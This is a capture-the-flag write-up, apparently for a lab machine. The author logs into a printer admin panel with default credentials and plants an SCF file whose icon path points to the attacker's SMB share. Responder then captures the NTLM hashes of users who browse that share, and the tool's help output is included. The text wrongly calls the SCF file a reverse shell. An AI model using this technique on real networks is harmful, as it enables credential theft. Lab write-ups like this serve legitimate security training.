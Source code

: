 #we find port 80 is opened we try to open browser http://10.10.11.106

It asks for creds , trying the default admin:admin & it works! 
Trying msfvenom payloads to get reverse shell and Pentestmonkey reverse shell our fav ! but nothing works 

Then i notice this line in the index " Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon. "

i started to search for reverse shell for smb share reverse shell and thanks to https://www.puckiestyle.nl/smb-share-scf-file-attacks/ 


[Shell]
Command=2
IconFile=\\10.10.14.8\share\test.ico
[Taskbar]
Command=ToggleDesktop

here is the code we use for reverse shell

Saving the test.txt file as SCF file will make the file to be executed when the user will browse the file. Adding the @ symbol in front of the filename will place the test.scf on the top of the share drive.

so it will be `test.scf`

Then we use responder tool to capture the hashes of the users that will browse the share.

responder -h              
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

Usage: responder -I eth0 -w -r -f
or:
responder -I eth0 -wrf

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
  -i 10.0.0.21, --ip=10.0.0.21
                        Local IP to use (only for OSX)
  -e 10.0.0.22, --externalip=10.0.0.22
                        Poison all requests with another IP address than
                        Responder's one.
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -r, --wredir          Enable answers for netbios wredir suffix queries.
                        Answering to wredir will likely break stuff on the
                        network. Default: False
  -d, --NBTNSdomain     Enable answers for netbios domain suffix queries.
                        Answering to domain suffixes will likely break stuff
                        on the network. Default: False
  -f, --fingerprint     This option allows you to fingerprint a host that
                        issued an NBT-NS or LLMNR query.